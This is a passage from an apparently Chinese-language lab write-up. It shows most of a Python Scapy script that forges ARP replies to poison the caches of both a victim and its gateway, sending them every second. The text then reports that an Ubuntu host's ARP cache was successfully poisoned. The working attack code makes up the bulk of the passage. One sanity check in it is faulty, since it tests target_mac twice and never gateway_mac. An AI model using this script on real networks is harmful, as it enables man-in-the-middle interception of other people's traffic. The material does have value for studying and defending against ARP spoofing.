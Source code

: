 ```python
    print 'local_mac = {} target_mac = {} gateway_mac = {}'\
        .format(local_mac, target_mac, gateway_mac)
    if not all((local_mac, target_mac, target_mac)):
        print 'Fail to Get MAC Address, Please Check the Arguments'
        sys.exit(0)
    packet_t = Ether(src=local_mac, dst=target_mac) \
        / ARP(hwsrc=local_mac, psrc=gateway, hwdst=target_mac, pdst=target, op=2)
    packet_g = Ether(src=local_mac, dst=gateway_mac) \
        / ARP(hwsrc=local_mac, psrc=target, hwdst=gateway_mac, pdst=gateway, op=2)
    try:
        while True:
            sendp(packet_t, inter=2, iface=interface)
            sendp(packet_g, inter=2, iface=interface)
            time.sleep(1)
    except KeyboardInterrupt:
        sys.exit(0)

if __name__ == '__main__':
    parse_arguments()
```
代码并不复杂，除了print语句外对Python2和Python3并不敏感。`parse_arguments()`函数进行参数的解析，`arp_poison()`函数构造arp欺骗包同时欺骗受害者和网关，并每隔一秒发送数据包。

运行这段代码
![arp.py](https://github.com/DBullet/UCore/blob/master/lab5/image002.png)

很快就可以看到Ubuntu的arp缓存已经被毒害
![arp](https://github.com/DBullet/UCore/blob/master/lab5/boot/image002.png)
